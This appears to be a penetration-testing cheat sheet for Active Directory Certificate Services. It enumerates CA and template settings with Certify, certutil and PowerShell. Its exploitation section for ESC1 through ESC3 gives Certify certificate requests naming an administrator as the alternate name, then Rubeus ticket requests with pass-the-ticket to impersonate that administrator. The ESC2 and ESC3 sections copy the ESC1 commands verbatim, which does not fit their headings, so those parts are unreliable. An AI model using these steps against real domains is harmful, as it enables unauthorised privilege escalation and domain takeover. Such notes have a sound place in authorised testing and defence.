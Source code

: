 ### Configuration Testing

#### 1. CA Configuration

```powershell
# Using Certify
Certify.exe ca /ca:<CA_SERVER>\<CA_NAME>

# Using Certutil
certutil -dump
certutil -getreg
```

#### 2. Template Configuration

```powershell
# Using PowerView
Get-ADObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties * | Select-Object Name, pkiPathLength, pkiPrivateKeyFlag, pkiEnrollmentFlag, pkiSubjectNameFlag

# Using Certify
Certify.exe find /template:*
```

### Exploitation

#### 1. ESC1 - Misconfigured Certificate Templates

```powershell
# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com

# Using Rubeus
Rubeus.exe asktgt /user:administrator /certificate:<CERTIFICATE> /ptt
```

#### 2. ESC2 - Any Purpose EKU

```powershell
# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com

# Using Rubeus
Rubeus.exe asktgt /user:administrator /certificate:<CERTIFICATE> /ptt
```

#### 3. ESC3 - Enrollment Agent

```powershell
# Using Certify
Certify.exe request /ca:<CA_SERVER>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:administrator@domain.com

# Using Rubeus
Rubeus.exe asktgt /user:administrator /certificate:<CERTIFICATE> /ptt
```
